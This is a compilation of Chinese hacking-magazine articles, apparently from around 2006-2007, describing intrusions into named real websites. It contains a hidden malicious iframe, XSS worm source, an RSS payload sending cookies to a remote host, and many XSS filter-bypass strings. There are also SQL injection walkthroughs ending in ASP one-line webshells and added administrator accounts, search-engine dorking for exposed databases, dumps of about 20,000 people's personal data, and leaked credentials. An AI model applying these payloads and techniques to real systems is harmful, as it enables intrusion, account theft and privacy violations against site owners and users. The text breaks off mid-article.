本来文章到这里就完了，可是朋友说不能这么结束，非得收拾下。于是进去那幼儿园瞅瞅，汗……全是 HTML 页面，试了下旁注，有 41 个站点，随便进了一个“http://www.ntzhiyuan.com/”，倒……感觉不对劲，查看源文件：

```html
<iframe height=0 width=0 src="http://www.it-ie.com/z3"></iframe>
<HTML><HEAD>
<TITLE>南通志远塑料化工有限公司</TITLE>
<META http-equiv="Content-Type" content="text/html; charset=gb2312">
<STYLE type=text/css>
A:link { COLOR:#333333; TEXT-DECORATION:none }
A:active { COLOR:#333333; TEXT-DECORATION:none }
```

被挂马了，查看 http://www.it-ie.com/z3 的源文件，直接跳转到 http://www.it-ie.com/z3/wm.htm，继续查看后发现是加密的 ms06014 网马。网马下载文件 http://www.it-ie.com/z3/q.exe，下载分析后发现是 “PENightMare 2 Beta -> FreddyK”。OD 载入可见花指令绕过卡巴，故记录如下：

```asm
00416000  9>60          pushad
00416001  E9...         jmp q.00416016
00416006  EF            out dx,eax
00416007  40            inc eax
...
00416016  68 B3504100   push q.004150B3
0041601B  C3            retn
```

脱壳后，卡巴报是下载者，Windows 里也多了个灰鸽子的服务端。分析发现这鸽子插入 IE，在冰刃里虽不显示为红色但有实力；并加入较长花指令。最终定位为 VIP 20050101 版本鸽子，查壳地址如下：

> http://bbs.it-ie.com/b/ip.jpg  
> http://203.80.147.15/wwwroot/  
> 辽宁省鞍山市铁通出口

貌似不是第一次的那个人，这个服务器也够倒霉，到处被挂马。再这样分析下去到明天也没完，算了就到这了。顺手把那鸽子扔到病毒举报中心，瑞星竟然赏了我个正版序列号！HOHO！

---

适合读者：入侵爱好者  
前置知识：Javascript 知识，Ajax 技术

## 2007年网络攻击新潮  
*Ajax Hacking*


文/图：梦之花草 (Monyer)

2005 年初，随着 Web 2.0 在国内网络媒体上迅速流行，Ajax（Asynchronous JavaScript And XML）技术成为讨论焦点。其核心为浏览器中的 XMLHTTPRequest 对象。随后黑客开始关注 Ajax 的攻击弱点，如 SQL 注入、跨站脚本（XSS）和拒绝服务攻击等。但当时 Web 2.0 尚未像今天这样普及，平台也不够规范，因此大规模攻击并不多见。

真正的大型 Ajax 攻击在 2006 年 6 月 12 日首次出现在 Yahoo! 的 Gmail 服务上，并引起 Symantec 高度警觉。在其官方网站可看到如下信息（图 1）：

> Discovered: June 12, 2006  
> Updated: June 20, 2006 ...  
> Type: Worm  
> Infection Length: 6,377 bytes  
> Systems Affected: Windows 2000/95/98/Me/NT/Server 2003/XP ...  
> JS.YamannerOm is a worm written in JavaScript ...


图 1

因为是 Javascript 代码，所以可以通吃所有版本的 Windows 操作系统。Symantec 对其的官方解释为 Yamanner 是一个用 Javascript 编写的蠕虫，它利用 Yahoo! Mail 服务的一个弱点，以用户的联系人列表向外发送自己的拷贝。事实上这个蠕虫甚至不需要你打开附件，只要一浏览邮件立即会使其蔓延。我很幸运地对当时原始的病毒代码进行了收集，有兴趣的可以到光盘中查看，如今在网上几乎找不到了。从其中的一段功能代码，可以看出 Javascript 究竟是怎么被写入的，写入后文件又是通过什么方式调用的：

```javascript
';
  EndString='</td>';
}
```

由此 Ajax 攻击可见一斑，然而这还仅仅是个开始。7 月份百度开通了百度空间，虽然没有指明是应用 Web2.0 技术，但从 Web2.0 象征的测试版（beta）和页面模板架构等，可以看出它事实上已经应用了 Ajax 技术。

你可以看到该攻击程序为一大小为 6,377 字节的 javascript 蠕虫程序，并在 20 日进行了变种。因为空间开通不到半个月，相应的攻击方式又产生了，这个攻击应该又算是一个蠕虫吧。它利用百度提交的自定义 CSS（Cascading Stylesheet，层叠样式表）中对插入的 Javascript 过滤不严格，而使攻击者可以写入恶意代码进行了 XSS（Cross Site Scripting）跨站，从而使浏览该空间的百度通行证用户在不知觉的情况下将该站点加入自己的友情链接中。其最原始的代码标本如下：

```javascript
#header{height:89px;background:url('javascript:document.body.onload=function(){ ... }')}
// 在CSS的样式标签中插入Javascript代码
var req=null;
if(window.XMLHttpRequest){ req=new XMLHttpRequest(); }
else if(window.ActiveXObject){
  var msxml=['MSXML2.XMLHTTP.5.0','MSXML2.XMLHTTP.4.0','MSXML2.XMLHTTP.3.0','MSXML2.XMLHTTP','Microsoft.XMLHTTP'];
  for(var i=0;i<msxml.length;i++){ try{ req=new ActiveXObject(msxml[i]); break; }catch(e){} }
}
req.open('get','',false);
req.send();
var s=req.responseText;
...
var name='Here is a bad site';
var link='目标网址';
var desc='This link was added by an XSS script';
var url='/+/user/commit';
var data='ct=6&cm=1&spRef='+escape('http://hi.baidu.com/'+user)+'...';
// 这句是蠕虫的执行语句，也是Ajax的数据异步调用语句。
req.open('post',url,false);
req.send(data);
alert('A friend link has been added to your space at http://hi.baidu.com/'+user);
```

```javascript
else{alert('You are not a logged Baidu user.');}

// ……由于是样本语句，所以这里有对是否登录的判断，在实际攻击中当然不会有。
```

当时百度在第一时间内对此蠕虫作出了反应——过滤提交表单中的 Javascript，当然这也使正常用户无法再在 blog 中贴入 Flash 动画。但后来的变种使得境况变得更糟糕，因为有人发现百度仅仅是过滤了 CSS 文本中的譬如“Javascript”和“expression”这样的字符串。也就是说，如果把“Javascript”分成两行来写，就可以绕过百度的过滤，但同时又能被 IE 执行。而这时变种的蠕虫也随之产生，其造成的结果是在用户的 CSS 中加入如下代码。

```css
#header {</textarea><script>window.location.href='http://hi.baidu.com';</script>......}
```

很简单的一句吧？这几乎把该蠕虫提升到了病毒性质，因为用户本身无法到达 CSS 修改页面来修复他的 CSS 代码。事实上直到写这篇文章时，百度空间尚没有对一些另类的插入恶意代码方式进行有效地过滤和封锁，如图 2 所示。


如果认为它们所造成的影响都是局域的，那么我不得不带领大家来看一些影响比较广泛的、最具有 Web2.0 性质的——RSS（Really Simple Syndication）攻击。这是我从 Joris Evers 的一篇名为“Blog feeds may carry security risk”了解的，大体意思是说由于目前几乎所有的在线/离线 RSS 阅读器都没有有效地对掺杂在 RSS 中的脚本进行过滤，导致攻击者可以向 RSS 中写入恶意的 Javascript 代码，最终导致 XSS 跨站，获取用户信息或其他。包括著名的 Bloglines、RSS Reader、RSS Owl、Feed Demon 和 Sharp Reader 都在攻击范围之内，下面是去年 Yahoo RSS XSS 的代码，如图 3 所示。

```xml
<item>
<title>Steal My Cookie!</title>
<link>javascript:%20document.location='http://www.target.com/cookie.cgi?'%20+document.cookie;</link>
<!-- 获取用户在当前站点的 cookies，并发送到 http://www.target.com/cookie.cgi 进行记录 -->
<description>Should Steal Your Cookie.</description>
<pubDate>Tue, 20 Sep 2005 23:55:18 EDT</pubDate>
```


```xml
</item>
<item>
<title>Show My Cookie!</title>
<link>javascript:%20alert(document.cookie);</link>
<!-- 弹出用户 cookies -->
<description>Should Steal Your Cookie.</description>
<pubDate>Tue, 20 Sep 2005 23:55:18 EDT</pubDate>
</item>
```

事实上，最早的 Web 2.0 攻击出现在去年的 MySpace 上，有人在 MySpace 交友网站上写了一段 JavaScript 蠕虫代码，利用 Ajax 方法让无数用户在不知情的情况下把他加入了好友名单，同时在他们的个人简介最后自动加上了“samy is my hero”的字样。此蠕虫被称为世界上第一个 Web 2.0 蠕虫。而从上文对 email、CSS、RSS 攻击进行的描述中，大家也可以看出目前对 Web2.0 的攻击利用亦是多方面的，并不单单指跨站。

> “By corrupting one of the dozens of data exchanges Ajax handles while loading a Web page, a hacker can take over control of the PC”

也就是说在某些情况下，利用 Ajax 攻击并获得个人电脑管理权限亦是可能的。由于目前系统对补丁的发布采取的都是实时更新功能，想通过溢出获得 Shell 已经很难了，除非是 0day 的系统漏洞；而 SQL 注入在网络也肆虐了几年，亦有了行之有效的防范方法。并且由于 Python 和 Ruby 语言的兴起，新的 Web2.0 服务正在产生并有取代现有 Web 结构的趋势，如 Plone。但不可改变的是，Web 浏览器对 xhtml 和 Javascript 的解释，只要我们始终有改变 Javascript 的可能性，我们就永远还有提升自己权限的可能……那么对于日趋庞大的 Web2.0 大军，你是否有兴趣从中分一杯羹呢？

## 2007年网络攻击新潮 —— Ajax Hacking

适合读者：入侵爱好者

前置知识：无

## 再次挖掘中国博客网跨站漏洞

文/图 曾云好


中国博客网是目前国内一家比较大的博客提供站点，我自己的博客也是采用他们的。在很早之前我就发现了该网站的一个跨站漏洞，因为当时比较忙，没多少时间去测试另外的漏洞，所以给中国博客网的客服部发了一封邮件就了事了，之后我就把这件事给忘了。但是在浏览上期杂志的时候，突然发现有人写了这个漏洞，当时我非常气愤，那个漏洞居然还没有补上，于是我决定再次测试其安全性。中国博客网提供几种博客服务，如情侣博客、个人博客、企业博客等等，因为本人使用的是个人博客，所以就用个人博客来作为测试对象。

### 挖掘

博客对每篇日志都提供了评论的功能，用户只要填上主页、留言、验证码就可以了。如果在没有登录的情况下，昵称是由“访客”加上一个六位随机数组成的一个名称，如图1所示。虽然是由系统提供的昵称，但是却可以随便修改。在所有的输入框中输入`<zyh>`，如图2所示，利用这个技巧可以很快确定是否存在跨站漏洞。至于中间的 zyh，是我名字开头的三个字母，可以随便修改。下面我们来看看返回客户端的代码。


```html
......省略代码......
<a href="&lt;zyh&gt;" class="x-blue" target="_blank">
&lt;zyh&gt;(访客)</a>
</span>&nbsp;2006-11-11 19:44:32</td>
<td width="60">...
```

```html
</td>
<td width="60"></td>
</tr>
</tbody>
</table>
<TABLE width="98%" border="0" align="center" cellPadding="0" cellSpacing="0" class="margin-top" id="Table14">
<TBODY>
<TR>
<TD style="word-break:break-all">
&lt;zyh&gt;
</TD>
</TR>
......省略代码......
```

我们可以看到，在第二个 zyh 中没有过滤“<”和“>”，即昵称处没有过滤参数，这样我们就可以用来跨站了，如图3和图4所示。


日志还提供了一个类别分类功能，不同的文章可以划分到不同类别中。在后台中可以自己添加不同的类别，但是类别名处可以输入任何数据，如图5所示。在添加类别后就会生成分类代码，如图6所示。下面就是在我输入`<script>alert(类别管理跨站)</script>`后的部分代码。

```html
<table width=100% align=center>
<tr>
<td align=left>
<a href=index.html>首页</a>
</td>
</tr>
```


我们的跨站代码没有得到转换，不过被屏蔽了，所以要避开那些标签的封锁，把原来的跨站代码改为`<script>alert(类别管理跨站)</script><a`就可以绕过封锁，实现跨站了，如图7所示。


博客中还提供了一个网摘的功能，可以在后台自己编辑网摘。如图8所示，我在地址、标题、描述、TAGS 上都输入图片跨站代码，提交后就可实现跨站了，如图9所示。


如图10和图11所示，可以在后台修改博客自己的标题。我这里用的是申请的标题，在标题中输入跨站代码，那么在每次打开博客时都会出现跨站效果。


中国博客网的功能确实比较丰富，比如对于博客的首页，用户可以自己修改，而且提供可视化编辑、代码编辑、选择模块三种方式。代码编辑就是把首页的代码全部显示出来，如图12所示，而且用户可以自己修改任何代码。这是一个在安全上比较大的隐患。比如在代码中间插入代码`<iframe frameborder=0 width=300 height=300 scrolling=no src=http://www.baidu.com></iframe>`，那么就可以实现挂马了，如图13所示。


在图12中，我们还可以看到有一个音乐盒子的功能，即在首页中增加音乐的功能。我们可以在后台添加音乐，如图14所示，提交后就可实现跨站了，如图15所示，而且这个跨站最有意思。我们在添加跨站音乐后，只要有人打开我们的博客，音乐就会运行，而这个时候的音乐是跨站，所以只要打开首页就会出现跨站死循环，关闭跨站后会再弹出来。

博客网提供了三种友情链接方式：文字链接、图片链接、链接和 LOGO，如图16所示。这三种方式都存在跨站漏洞，不过需要绕过一些标签。这里用文字链接作为例子来说明。下面是输入`<链接>`后返回的代码：


可以看到，只有一个地方把“<”和“>”进行了转换，其他地方都没有转换，只是被标签给封住了。例如第一个链接可以输入`<script>alert('链接跨站')</script><`来绕过，就可实现跨站了，如图17所示。


```html
<Td align=center width='8%'><strong>No.1</strong></td>
<td class='main_bg'><a href='<链接>' target=_blank>&lt;链接&gt;</a>
<a href='/createfiles/bookmark_editNew.asp?id=1123569'>[编辑]</a>
<a href='/createfiles/bookmark_delNew.asp?id=1123569&d_tp=2'>删除</a>
……省略代码……
<tr><Td align=center width='8%'><strong>No.1</strong></td>
<td class='main_bg'><a href='<链接>' target=_blank>
' border=0 alt='<链接>'></a>
```

### 总结

对于中国博客网，我的印象一直是非常优秀的，不然我也不会用他们的博客。同时欢迎大家访问我的博客，地址是`http://zengyunhao.blogcn.com`。通过这次挖掘，我没想到他们的系统居然存在那么多的问题，安全性如此脆弱。对于跨站，我们还可以做很多事情，如偷 Cookies、挂马等。如果当初他们重视我的邮件的话，也许今天就不会出现如此多的问题了。看来国内计算机从业人员的安全意识还是有待提高。

- 适合读者：入侵爱好者
- 前置知识：入侵基础知识

## 美餐——北京航空航天大学

文/图 hackest

上次写了一篇入侵北大的文章，不过后来想想也不怎么成功，尤其是3389方面，所以决定再找找北京哪些大学的漏洞，最后还真是让我找到了一个，目标是北京航空航天大学。这次一定要拿下3389，也不枉我是个“黑防VIP”嘛，怎么可以丢了黑防的面子呢？

### 行动正式开始

首先当然是打开北航的主站了解一下情况了，别忘了入侵前的信息收集也很重要的哦。主站这边最终没有什么进展，到别的分站看看吧。我们一个一个站地去找，就当是正常的网页浏览吧。逛了好几个分站都没有什么收获，真是郁闷。精诚所至，金石为开，最后来到了北航的组织机构页面，进入北航的学生工作信息中心，有个最新公告，打开看看，试了一下，不行啊，暴汗ing，如图1所示，看来从这里注入是不太可能的了。想想也是，又怎么会这么容易呢？网站暂时没有办法拿下，那我们就来用一点比较常规的办法吧，先扫一下开放端口吧，这也是入侵前的信息收集哦。我们用 Superscan3.0 扫描的时候发现服务器开了个8080端口，也就是代理服务了，如图2所示。那我们就先来访问一下北航服务器的8080端口吧。看看页面，原来这上面还有一个网站——首都大学生国防在线，页面上有些新闻报道的链接。


图2

### 邂逅注入点

对于网站的入侵，我最喜欢的还是注入，那就先试一下它吧。在 URL 后面加个单撇号，回车，返回了我们想看到的结果，页面出错了，如图3所示。再用经典的“and 1=1”和“and 1=2”检测，证明 SQL 注入是存在的，接下来的事情就简单了。开出我们的“壹马”——教主的 HDSI3.0（对于 ASP 的注入工具，我还是比较喜欢用它的，纯属个人偏好）……北航的后台倒不难找，难的是它的网站后台作了登录限制，如图4所示。好吧，既然不让我们进后台，那就给它个面子，不从后台下手了。其实进后台还不是为了得到可爱的 Webshell，再说进得了后台却不一定都能拿到 Webshell，何况我们还有更简单的办法拿 Webshell。


图3

### 得到Webshell

在用教主的 HDSI3.0 检测注入点的时候，我们发现权限竟是那最可爱的 sa！有了 sa 还有什么不可以做的呢！


图4

好吧，我们现在开始动手拿 Webshell。首先我们要找到网站的绝对路径。怎么找？当然还是用工具了，这次用“啊D”吧……很快便把网站的绝对路径列了出来，然后还是利用啊D的文件写入功能，点击“CMD上传”，如图5所示。


图5

现在把一句话木马插入到它的 ASP 文件中……其中“cmd”是连接密码。啊D提示成功后，如图6所示，用我修改过的一句话客户端连接试试看，成功连接上了，如图7所示。至此，Webshell顺利地拿到手了，任务完成。

```asp
<%if request("cmd")<>"" then execute request("cmd")%>
```


图6


### 轻取3389权限

我虽然没有上传海阳之类的 ASP 木马，但是我们可以看到更精彩的环节哦。不信？看好了！我们知道了注入权限是 sa 了，那到底可不可以执行命令呢？试一下不就知道了，这次再用教主的 HDSI3.0，它的命令执行功能比啊D更强。好了，反正不管白猫黑猫，能抓到老鼠的就是好猫嘛。工具的使用就看大家平时的习惯和爱好了，不影响我们行动就可以了。结果证明是可以顺利执行的，还可以从中看到它开启了 Terminal Services，也就是微软的远程桌面服务了，如图8所示。开了终端服务并不等于我们就可以连接了，有时候可能对方更改了终端服务的端口，又或者是有防火墙限制连接，更可怕的是还做了连接 IP 限制（上次北大物化学报的服务器就是这样，后来管理员和我联系上了，才知道是这样的情况，唉！）。

现在我们来看看这台服务器怎么样吧！还是用 superscan3.0 扫描一下它的3389端口开了没有，结果证明开了，如图9所示。用微软的远程桌面客户端连接发现可以正常连接，那就好办多了。现在拿下这台服务器已经是易如反掌的事情了。万事俱备，只欠命令了。接着就是用 HDSI3.0 执行添加用户的命令了，格式为：

```bash
net user username password /add
net localgroup administrators username /add
```

……并添加进了管理员组，如图10所示。最后就是连接了，截图给大家做个留念吧，如图11所示。


### 有趣的后记

渗透成功之后，我在 Google 里面搜索了一下，发现了一个页面和北航的学生工作信息中心一模一样的网页，但是 IP 却不相同，也存在相同的安全问题，所以就顺便也拿下了它的3389。不过这台服务器很慢。我不明白为什么会有两台服务器，是服务器群？这个就不清楚了。再接下来的就是我自己的事情了，清除日志，当然还有就是联系管理员了。由于发稿的时候漏洞还没修补，大家可千万不要乱来呀！

适合读者：入侵爱好者  
前置知识：无

## Baidu Hack
## 智取WebShell

文/图 大鲨班

说起 Google hack，大家一定都不陌生，所涉及的知识无非就是 Site、inurl 等内容的用法。下面我要介绍的 Baidu hack 是我在一次很偶然的事情当中发现的，实际上也未必一定要用到 Baidu，随便哪个搜索引擎都可以使用这个方法。由于本文中是以 Baidu 为例的，所以就暂时叫做 Baidu hack 吧。这个方法可以使我们迅速拿到 Webshell。

首先来说明一下原理：如果管理员在 IIS 设置中的目录浏览前打了勾，如图1所示，那么我们就可以看到这个网站目录里的敏感信息了。实际上这是个很低级的权限设置错误，但总是存在一些不够专业的管理员会这样做。假如我们能在搜索引擎里搜出这些网站，就可以做很多事。下面用几个十分常见的开源网站程序举例。


图1

### 针对动网论坛

动网论坛的使用极为广泛。我们看看有哪些动网论坛没有设置好权限。首先需要挑选动网论坛中名字起得比较罕见的脚本，我已经挑好了，就是 ReloadForumCache.asp。在 Baidu 搜索一下，看到了很多可爱的内容，如图2所示。

我圈了箭头的搜索结果就是没有设置好权限的动网论坛。大家注意看，凡是搜索结果中都是时间、大小、脚本名称形式的，都是没设置好权限的。下面我们信手打开一项结果，如图3所示，然后找到这个动网论坛的数据库，如图4所示。可以看得出，这个网站的站长是改过默认数据库路径的，遗憾的是数据库路径可以直接被我们看到。


图2

### 针对Leadbbs

我们同样需要选一个 Leadbbs 中罕见的脚本名，比如 makealltopanc.asp。在 Baidu 里搜索一下，结果如图5所示。有问题的搜索结果我都用箭头作了记号，随便打开一个看看，如图6所示。找到数据库，如图7所示。这个站长也改过默认路径了，遗憾的是无论他改成什么路径都是徒劳的。

### 对BBSXP

目前使用 BBSXP 的网站也很多，我所选中的是 admin_fso.asp 这个关键词，搜索结果如图8所示。我同样将有问题的网站都作了箭头标记。打开其中一项结果，如图9所示。也很任意地找到了数据库，如图10所示。

### 针对动易

使用动易内核的网站十分广泛，让我们来看看这些网站的安全性。搜索 admin_articlerecyclebin.asp，结果如图11所示，一整页我都作了记号。打开其中一项看看吧，如图12所示，接下来我们同样可以轻松找到数据库，如图13所示。

有趣的是，这个站长将数据库的名字改成了15位的字母，以此希望别人永远都猜不到他的数据库路径。可惜的是，它忽略了安全是一个整体这样一个事实，结果被我们轻松看到他苦心修改的数据库名。

### 后记

实际上本文所介绍的方法不只拘泥于以上几种网站程序，差不多对于所有的开源网站程序，都可以先找到其中比较有特色的脚本名，然后再搜索有问题的网站。


图3


图4


图5


图6

你还可以针对国外的一些比较常见的网站程序，找到其中平时比较少见的脚本名（目的是排除搜索结果中的干扰结果），然后在 Google 中搜索有问题的网站（搜索国...）。

## 图示

图7  
图10  
图8  
图11  
图9  
图12  
图13

外信息就用 Google，搜索国内信息就用 Baidu，这是我的经验，再然后就是下载数据库了……

最后我希望利用《黑客防线》这个平台呼吁广大站长多加强安全方面的意识，因为站长整体的素质直接关系到黑客整体的素质。如果中国的站长总是犯一些默认数据库、默认密码以及目录浏览方面的错误的话，那么黑客也就会不思上进，这样大家就都不会进步了。但愿中国的站长能不断加强安全意识，黑客也不甘后人。所谓道高一尺，魔高一丈，最后中国安全界就形成了百花齐放、欣欣向荣的景象，这才叫做在攻与防的对立统一中寻求突破。

## EXPLOIT ATTACK&DEFENCE

适合读者：入侵爱好者、脚本爱好者  
前置知识：JavaScript脚本

## 从百度空间到中国博客漏洞

文／图 梦之光芒（Monyer）

这段时间总有朋友问我在2006年第10期《黑防》上介绍的 Ajax Hacking 的影响程度究竟有多大，并且如何针对现阶段的网络状况进行 Web 2.0 漏洞的测试及利用。这里就再次借助《黑防》给大家看看，仅对于其中的 XSS 跨站漏洞，目前有哪些代码注入的方式，其影响力又有多大！

在真正的漏洞探索旅程开始之前，我先给大家介绍一下我以及好友 caishuo 在百度空间发现的跨站漏洞利用方式，以及百度对漏洞围杀的过程，相信这样你会对 XSS 有一个具体的了解。

### 百度空间漏洞攻防战

最初百度空间的 Beta 版事实上没有过滤任何代码，所以可以直接在空间的自定义 CSS 里插入 JS 或 VBS 代码，比如：

```css
body{background:url("javascript:alert('xss')")};
```

也就是在这时候，百度蠕虫第一次出现（具体内容请看10期《黑防》）。后来百度对用户输入的“JavaScript”“VBScript”以及“Expression”进行了过滤，使得上述方法无法实现，但是依然可以通过把“JavaScript”分两行写的方式进行绕过：

```css
body{background:url(j
avascript:alert('xss'))}
```

在百度又一次过滤后，我们的新方法是在文章编辑里插入：

```html
<div style="width:0;height:0;background:url(javascript:document.body.onload=function(){alert('xss')});"></div>
```

然后百度又开始过滤 div 中的“JavaScript”字符了。

我接下来采取的突破方法是在插入外部图片连接地址中写入：

```text
javascript:alert(/xss/)
```

这当然很快又被百度修复了，然后我试着在百度音乐地址中插入事先构造好 XSS 脚本的 swf 文件，同样可以达到 XSS 的目的。这之后采取的是在文章编辑中插入图片代码：

```html


```

这时百度开始过滤 img 中的 JavaScript，所以接下来我的突破方法是在 CSS 中插入 import：

```css
@import "你要加载的css文件.css";
```

然后在外部调用的 CSS 里插入 XSS 代码。也是这时我在百度的博客开始利用 Ajax 增加了一些版块，比如日历、天气预报等百度所没有的版块。这次百度采取的过滤方式是把“import”字符串化为空格，但因为百度并不是单纯地过滤，而是判断字符串前后是否有非英文或数字存在——这样做的原因是怕“Important”和其他一些合法字符被过滤掉。于是我们就又有了新的破解方法：

```css
@importimport "你要加载的css文件.css";
```

保存后，百度会自动过滤掉后面的“import”。百度对于这种新利用方法的回应是对这样的输入不再进行过滤，于是利用方法再一次得到改进：

```css
@import
import "你要加载的css文件.css";
```

即把两个 import 分两行来写，百度仍然会过滤掉后面一个，使语句完整，但后来再这样输入时，百度会把 import 全部过滤掉！这也宣布了明码的 XSS 代码注入告一段落。

接下来我们采取的方法就是加密 XSS 代码了。由于过滤一般只是针对如 `JavaScript` 或 `VBScript` 这样的关键字，所以方法一是我们在字符串中插入空格或者回车字符进行绕过，因此其利用形式如下：

```html


```

其中“`&#x09;`”是 tab 空格的16进制写法，“`&#x0A`”和“`&#x0D`”是回车的16进制写法。当然，你也可以把它们用10进制表示（`&#9` 和 `&#10&#13`）。

方法二则是用转换工具对 XSS 字符串进行进制转换，因此代码又有了以下的表现形式：

```html
① （十进制形式）

② （十六进制形式）

③ <DIV STYLE="background-image:\0075\0072\006C\0028\006A\0061\0076\0061\0073\0063\0072\0069\0070\0074\003A\0061\006C\0065\0072\0074\0028\0027\0058\0053\0053\0027\0029\0029">test</DIV>（八十六进制形式）
```

或者用 VBS 及 VBS 的编码：

```html

```

到结稿为止，这些方法目前依然有效。接下来我们看看继续在其他博客空间，又会有怎样的安全性呢？

### 中国博客XSS漏洞初探

中国四大门户都提供了免费邮箱及博客服务，所以我们依次对其进行检测。为了体验效果，这里使用的 XSS 原始代码均为 `javascript:alert('XSS');`。

- 1）网易博客  
  我们首先看网易最近推出的博客服务……当我们在编辑文章中输入①或②代码并提交后会出现警告。这说明网易事实上可以对标准的十进制或十六进制编码进行识别；但当我们输入③的代码时，网易却没有进行有效识别，使 XSS 跨站成为可能。  
  当然，由于代码没有长度限制，所以事实上我们可以编写任意想要的攻击代码并进行提交……这里就不给出攻击代码了。

- 2）新浪博客  
  接下来我们来看新浪博客的安全性又会如何。由于新浪的编辑器会查看 src 的头部是不是 http……但实际上除了 `` 和 `<div>` 可以插入 XSS 语句外，事实上 `<table>` 和 `<td>` 等只要支持插入背景的标签都支持脚本的插入，比如：

```html
<TABLE BACKGROUND="javascript:alert('XSS')">
<TD BACKGROUND="javascript:alert('XSS')">
```

因此，我们更换标签加密后，就可以顺利地通过新浪检测了。

- 3）TOM博客  
  没有任何过滤设置，也因此上面所有的 XSS 代码均可以顺利写入进行跨站，而且因为它采取的是本地 Cookies 认证，如果我们构造代码记录其他用户的 Cookies，则我们就可以拥有该用户的所有权限！

- 4）搜狐博客  
  搜狐博客会过滤掉①和②中的代码，但对③的代码依然无可奈何。  
  而中国博客网和博客网也同样存在 XSS 跨站漏洞。

### 免费邮箱XSS漏洞

除了博客服务，我也对各门户网站的免费邮箱服务进行了检测，情况同样不容乐观。因为 126 信箱的 Ajax 功能会将邮件下载并保存到本地，所以居然无须打开邮件即会弹出 Alert 窗口。

### 总结

我们这次的检测其实还包括了 MSN、Gmail、Yahoo 等几个国外站点，它们目前也是典型的 Web 2.0 使用站点，但是用以上 XSS 方式却都没有出现类似问题，尤其是 MSN 的过滤方式更令人称奇，这使人不禁对中国的门户网站产生不解。其实这些变换着方式的代码注入，它们应该可以轻而易举进行屏蔽或过滤的，但不知道为什么却始终跟用户玩着冒险的游戏，对 Samy 和 Yamanner 所带来的危害和损失视而不见。

前些日子的百度受攻击事件已经证明了个人攻击网站巨头并不是一个神话，但愿中国的门户网站们会尽快清醒起来，把安全放在首位，走得更安稳些，走得更长远些！

## 刀入网站是这样泄漏的

适合读者：入侵爱好者，脚本爱好者  
前置知识：无

前段时间网上陆续爆出用户信息泄漏事件，动辄数万人的银行信息、个人资料失窃，给用户造成了巨大损失。难道真是黑客很牛吗？也许有些是，但很多情况是网站自身存在着很明显的漏洞而导致的。下面就来一起看看我是如何获得万人的个人信息的吧。

用户将自己的个人信息提交到要注册的网站，储存在网站的数据库里，我们要想获取这些信息，就要从数据库下手，还是先选一个个人信息集中的“母体”吧。嗯，monternet 怎么样，该有很多人注册吧？来看看吧。

对于网站信息的搜集，这里我们要借助 Google。输入“site:monternet.com .asp”，“site”用来指定在某个网站内进行搜索，这里指定搜索 monternet.com 站内的资源，“.asp”则是我们要搜索的内容，即 .asp 文件。点击搜索，第一页最下面出现了我期待的东西，如图1所示。

点击打开页面，这个页面本身是没有漏洞的，内容是关于摩托罗拉的新闻图片。把鼠标移到其中一张图片上，下面显示出了链接，凭直觉这个地方程序员很可能会忽视掉过滤。

打开链接，在后面加上个“'”。咦？显示无法显示网页！定睛一看，是内部服务器错误。哈哈，不好意思，赶紧把“显示友好 HTTP 错误信息”关掉，在这里友情提醒一下各位菜鸟们，一定要记着把这个关掉，不然 IE 不给看错误信息的。

现在好了，数据库信息出来了，是 MS SQL 数据库，抄家伙上。

拿出 NBSI2，填上地址，开整。虽说权限比较低，但并不妨碍我们读取用户信息，至于提权，那是后话了。

图6所示是正在读取信息，看起来很别扭，用 NBSI 的“自动导出”功能将数据导出。图7就是导出的文件了，由于信息项目很多，一行里显示不完整，里面还有电话号码和身份证号。

## 多思路入侵企业网站

适合读者：入侵爱好者  
前置知识：无

## VIP会员学习成果展

今天我们要做的是多思路入侵上海闵行新灵无机材料厂这个站点，其网址是 http://www.xinlingwuji.com。为什么要入侵这个站点呢？其实主要是给新手一个思路，废话不多说，下面开始。

打开主页，会发现有一个管理入口。试了几个默认密码跟万能密码都不行。意料之外的事情，根据我的习惯，直接把地址放进明小子里面去扫描有什么漏洞。经过检测后，发现是 Access 的数据库，我们先猜表名，再猜列名。

经过猜解后，这个数据库有3个表名。User 表的内容为 username: ontime, password: d17fd33e6b84f90d，密码是 MD5 加密的，破解后也是 ontime，可是登录不上去。

| 表名 |
|---|
| user |
| Manage_User |
| book |

我们再看看 Manage_User 表，其内容为 username: admin, password: dcrfnt 和 username: kekecn, password: lgniht。经过测试，表里面的用户名和密码全都不能用。既然注入行不通，我们就另外寻找漏洞吧，再试试上传。

经过测试还是不能用，后来用 Cookie 依然以失败告终。那么这个网站有没有默认的数据库呢？我们来看看，结果依然令人失望。

既然用工具找不到，那就要另外寻找思路了。我看了一下服务器信息，显示的是“Copyright © 2004-2008 Power By 系统”，后来利用站点特征代码查询，终于发现默认的数据库地址是 `databas/datashop.asp`。这就说明我们可以继续深入。

```text
[图6为工具输出日志/响应数据]
...（包含URL、HTTP响应、字段信息、推断出的数据库路径等）
```

| UserName | Password | RealName | Sex | ... |
|---|---|---|---|---|
| （大量用户记录，约2万人信息） |

好了，至此又一次信息泄漏事件诞生了，里面一共有近2万人的个人信息。我是没功夫读了。无聊的人们看着办吧。如果你说这些没用的话，至少，我建议你可以用得出的密码来试注册的信箱，相信会有收获的。

数据库找对了，这里有两个思路，第一个是直接下载下来找名字和密码，第二个就是利用一句话木马。第一种行不通，无法下载，这个就有点郁闷了，默认的数据库路径没改，说明安全意识应该不怎么高才对。

怎么会防下载呢？废话不多说，接着用第二种方法，找到可以插入的页面 `http://www.xinlingwuji.com/linktianjia.asp`，它是申请链接的页面，在里面插入 `<%execute request("value")%>`。插入成功后，再用一句话客户端连接。

熟悉的界面终于出现了，接下来大家应该都会操作了吧？一个 WebShell 就这样诞生了。

由于本人是菜鸟一只，文章里会有很多不足之处，可能也走了许多弯路，希望高手多多指点。

## PPPoE，在安全的边缘徘徊

适合读者：入侵爱好者  
前置知识：注入基础

文／图【济南大学】柴大木

我撰写本文的目的在于让大家明白某些地区 PPPoE（PPP Over Ethernet，基于以太网的 PPP 协议）应用所存在的安全问题，并尽快找到弥补的方法。如果有谁利用本文提到的理论方法进行实际攻击，所造成的一切后果自负。

机会不可避免地泄露某些信息，比如机器的 MAC 地址、IP 地址、广播报文所携带的其他信息等。这些信息有可能被攻击者利用，并对用户的网络安全造成威胁，损害用户的利益。为了方便大家理解，用图1来简单地表示用户所处的网络环境。在实际应用中，网络拓扑会更加复杂，然而它们的原理都是相同的。

### 前言

